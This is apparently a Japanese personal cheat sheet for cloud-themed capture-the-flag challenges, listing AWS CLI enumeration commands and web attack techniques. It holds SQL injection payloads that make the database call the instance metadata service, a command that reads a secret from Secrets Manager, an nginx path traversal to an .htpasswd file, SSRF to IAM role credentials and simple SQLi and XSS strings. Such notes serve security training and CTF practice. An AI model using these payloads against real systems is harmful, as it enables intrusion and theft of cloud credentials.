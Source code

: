 ## RDS
- passしかなくても、MySQLダイレクト接続できるかも
- x'; SELECT sys_eval('curl http://169.254.169.254/latest/meta-data/'); -- //
- x'; SELECT http_get('http://169.254.169.254/latest/meta-data/'); -- //

## aws command
- aws configure #もろもろを設定、最後のformatは入力不要
- aws s3 ls
- aws s3 ls \<backetname\>
- aws s3 ls --endpoint-url http://s3.bucket.hoge
- aws s3 ls ↑の応答 --endpoint-url http://s3.bucket.htb
- aws s3 cp \<s3:\\\\file_path\> \<localpath\>
- aws s3api get-object --bucket \<bucket-name\> #バケットのオブジェクト取得
- aws s3api list-object-versions --bucket \<bucket-name\>
- aws ec2 describe-tags
- aws lambda list-functions
- aws lambda list-tags --resource \<function-arn\>
- aws lambda list-functions --endpoint-url http://<問題サーバー> --output json
- aws lambda invoke function name \<関数名\> out profile runfunction
- aws lambda invoke function name \<関数名\> out log type Tail query ' LogResult '　#ログ付き
--
output text profile runfunction | base64 d
- aws lambda get-function --endpoint-url http://<問題サーバー> --output json  --function-name <関数名>
- aws secretsmanager get-secret-value --secret-id database_pw
- aws sts get-caller-identity #アカウント情報
- aws sts get-caller-identity --profile=flag
- aws dynamodb scan --table-name private-ctfdb --profile ec2_role
- 
### ほか
- 使っているAWSサービスを調べる
    - nslookup \<website-url\>
    - nslookup \<ip-address\> #上で初めに列挙されたやつをいれる
- dev toolを使う
    - キャプチャして叩かれているAPIを覗く
- \<標的IP\>/.git
    - gittools 等で落としてきてコミットログを漁る
    - クレデンシャルが空欄だと、コミットで消してるかも
- echo 'hogehogehoge' | base64 -d  
- mysql
    - show databases;
    - use \<database-name\>; #usersとかあると嬉しい
    - show tables;
    - select * from \<table-name\>;
- nginxの設定ファイル
    - location /hoge 「ここ」終端スラッシュがないと..でパストラバーサル可
        - http://\<domain\>/assets../secret/.htpasswd
    - location /admin/ とかあったら覗きたいところ
        - admin/proxy/メタデータサービスのURL
        - admin/proxy/メタデータ/iam/security-credentials/ロール名
    - https://qiita.com/no1zy_sec/items/2718f4a99bb8368ac374
- 見るとこ
    - URL
    - ソース
    - Cookie
    - SQL, XSS, path, 
      - admin'-- 
      - 'OR1=1--
# XSS
- \<script>alert('XSS')\</script>